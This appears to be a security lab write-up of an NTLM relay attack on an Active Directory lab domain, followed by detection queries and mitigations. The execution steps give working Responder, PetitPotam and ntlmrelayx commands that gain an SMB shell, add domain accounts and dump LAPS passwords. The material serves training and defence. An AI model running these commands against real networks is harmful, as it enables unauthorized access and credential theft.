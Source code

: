 # Attack Scenario: NTLM Relay Attack
NTLM Relay allows an attacker to intercept and relay authentication attempts to another server, impersonating the original user. This enables command execution or access to services as the victim account — without needing to crack the hash.

## MITRE ATT&CK Techniques:
- T1557.001 – Adversary-in-the-Middle: LLMNR/NBT-NS Spoofing
- T1557.002 – SMB/NTLM Relay

## Lab Environment
- **Attacker system:** attacker-vm (Linux or Windows)
- **Domain Controller:** dc01.internal.lab
- **Victim host:** Any domain-joined machine with SMB traffic
- **Relayed target:** Server with exposed SMB/HTTP and unmitigated NTLM relay vector
- **Tools:** Impacket, Responder, ntlmrelayx.py, mitm6, PetitPotam

## Preconditions:

At least one domain device is susceptible to LLMNR/NBT-NS poisoning, or

Attacker can coerce authentication (e.g., via PetitPotam)

## Objectives
Capture NTLM authentication attempts

Relay them to a target accepting NTLM

Gain shell access or perform privileged operations without credentials
## Execution Steps
### 1. Prepare Responder (optional)
For environments with LLMNR/NetBIOS enabled:

```Responder -I eth0 -dvP```
Or disable Responder and use mitm6/PetitPotam for modern relay setups.

### 2. Coerce Authentication (if needed)
Use PetitPotam:

```python3 petitpotam.py -u <user> -p <pass> -d internal.lab <target-ip>```

Alternatively, trigger SMB connection from a misconfigured printer or GPO.

### 3. Run NTLMRelayX
To gain a shell:

```ntlmrelayx.py -t smb://target.internal.lab -smb2support --no-wcf-server```
To add a user:

```ntlmrelayx.py -t ldap://dc01.internal.lab --add-user testuser --add-computer testpc$```
To dump SAM or LAPS:

```ntlmrelayx.py -t ldap://dc01.internal.lab --dump-laps```

### 4. Confirm Access
For SMB shell:

```smbclient.py INTERNAL/testuser@target.internal.lab```
Or confirm the newly added user in AD.

## Detection Guidance
### Logs and Events
Event ID 4624: Logons with unexpected accounts or source IPs

4742: Computer object added or modified

### Defender for Identity: NTLM relay detection

Microsoft 365 Defender: “Suspicious SMB client behavior”

### KQL Example – Unusual Auth to Domain Controller
```
SecurityEvent
| where EventID == 4624
| where TargetUserName != AccountName
| where LogonProcessName == "NtLmSsp"
| where AccountType == "User"
| summarize count() by Computer, Account, IpAddress, bin(TimeGenerated, 1h)
```
## Mitigations
- Disable NTLM where possible (Network security: Restrict NTLM)
- Enable SMB signing and LDAP signing/channel binding
- Monitor for LLMNR, NBNS, and unexpected name resolution traffic
- Restrict local admin rights across workstations and servers

## References
- https://github.com/SecureAuthCorp/impacket
- https://dirkjanm.io/ntlm-relaying-to-ldap-with-ldaps/
- https://attack.mitre.org/techniques/T1557/002/
- https://book.hacktricks.xyz/windows-hardening/windows-local-ntlm-relay

## Navigation
[Back to Lab Index:](../../README.md)
[Related: PetitPotam Coercion](./petitpotam)